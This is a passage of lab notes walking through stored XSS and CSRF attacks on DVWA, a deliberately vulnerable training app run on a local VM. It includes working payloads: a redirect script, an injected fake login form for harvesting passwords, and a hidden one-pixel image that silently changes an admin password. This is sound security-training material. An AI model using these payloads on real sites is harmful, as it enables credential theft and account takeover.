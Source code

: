 
- Type the following for message
	- When users see the Guestbook, they will be redirected to another website (google.com)
```html
<script>document.location="https://www.google.com"</script>
```


Creating a fake login:
- Click on XSS (Stored)
- Type name into Name textbox
- Enter the following into the message and click Sign Guestbook. 
	- Adjust the Message maxlength to 200 if needed.
```html
Login to see more features:<br>
<form>
Username : <input type="text"><br>
Password : <input type="password"><br>
<input type="submit" value="login">
</form>
```
- When created, this acts as a fake login form and any visitors who are not careful might fill in their username and password, with this information potentially being sent to the hacker.

Reset Database: Setup > Create/Reset Database

## Cross-Site Request Forgery (CSRF)
- Cross-site request forgery can happen when a user is currently logged in to a trusted site and the attacker causes his browser to send an unwanted request to the trusted site.
---
- Go to http://127.0.0.1/DVWA-master/ and click on CSRF
- Check that the security level is **Low**
- View the HTML Source code. 
	- Note that the form method for entering the new password is "GET"
	- Means the user input will be passed through a query string in the URI.

Source Code
```html
<h3>Change your admin password:</h3><br/>
<form action="#" method="GET">
```

- Enter "password" for the New and Confirm password.
	- You can take note that the new password values are passed in the URI textbox.
![[Pasted image 20220707005732.png]]
### CSRF Example 1
- Create a new file "csrf.html" with the following content in a single line, replacing *Win10-IP* with the IP address of your Win10 VM
```html
<!-- This is a very new web page. -->
<img width="1" src="http://_Win10-IP_/dvwa-master/vulnerabilities/csrf/?password_new=12345678&password_conf=12345678&Change=Change">
```
- Key points to note in the HTML above
	- The image width is set to `1` so it won't get noticed on the displayed web page.
	- The image source is set to the URI displayed when you change the admin password.
- Change the "password_new" and "password_conf" to a new value like "12345678"
